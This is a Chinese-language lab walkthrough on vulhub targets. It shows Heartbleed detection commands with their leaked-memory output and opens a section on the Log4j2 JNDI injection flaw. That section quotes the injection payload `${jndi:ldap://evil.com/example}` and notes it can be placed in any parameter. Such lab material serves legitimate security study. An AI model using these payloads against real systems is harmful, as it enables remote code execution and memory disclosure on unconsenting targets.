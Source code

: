 检测漏洞

```shell
┌──(root㉿a-kali-23)-[~]
└─# Heartbleed https://centos7-6.local:8443/
```

```
2024/02/03 10:34:04 ([]uint8) (len=102 cap=1003) {
 00000000  02 00 53 68 65 61 72 74  62 6c 65 65 64 2e 66 69  |..Sheartbleed.fi|
 00000010  6c 69 70 70 6f 2e 69 6f  20 59 45 4c 4c 4f 57 20  |lippo.io YELLOW |
 00000020  53 55 42 4d 41 52 49 4e  45 20 61 2d 63 65 6e 74  |SUBMARINE a-cent|
 00000030  6f 73 37 2d 36 2e 6c 6f  63 61 6c 3a 38 34 34 33  |os7-6.local:8443|
 00000040  21 a8 2d b7 92 ea f3 23  a5 dd 37 e8 01 bb 16 e9  |!.-....#..7.....|
 00000050  86 8b a9 e8 0b 0b 8e 96  3d d1 38 ba 81 e3 f9 e3  |........=.8.....|
 00000060  94 32 fb 14 05 37                                 |.2...7|
}

2024/02/03 10:34:04 centos7-6.local:8443 - VULNERABLE
```

> 漏洞存在

或者使用 [ssltest.py](https://github.com/vulhub/vulhub/blob/master/openssl/CVE-2014-0160/ssltest.py) 检测漏洞

```shell
┌──(root㉿a-kali-23)-[~]
└─# python3 ssltest.py centos7-6.local -p 8443
```

```
WARNING: server returned more data than it should - server is vulnerable!
```

### 2.5 log4j

### 2.5.1 [Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）](https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/README.zh-cn.md)

>Apache Log4j2 是 Java 语言的日志处理套件，使用极为广泛。在其 2.0 到 2.14.1 版本中存在一处 JNDI 注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于
>
>`${jndi:ldap://evil.com/example}`
>
>的 lookup 用于进行 JNDI 注入，执行任意代码。

>Java 命名和目录接口（JNDI），是 Java 的一个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，从而便得开友人员在开发过程中可以使用名称来访问对象。

>JNDI 可以远程加载通过 LDAP 或 RMI 服务端提供的恶意代码注入并执行
>
>以 LDAP 方式注入
>
>LDAP: `Idap://127.0.0.1/payload` 提供恶意代码。

>Log4j2是一个日志处理框架，只要将 `${jndi:ldap://127.0.0.1/payload}` 传递到日志中就可以触发
>
>日志的级别必须是 error 或 fata l。所以测试方法也比较简单粗暴，任何参数都可以直接插入 `${jndi:ldap://127.0.0.1/payload}` 
>
>只需要判断目标服务器有没有加载 `ldap://127.0.0.1/payload` 就可以判断是否存在漏洞。
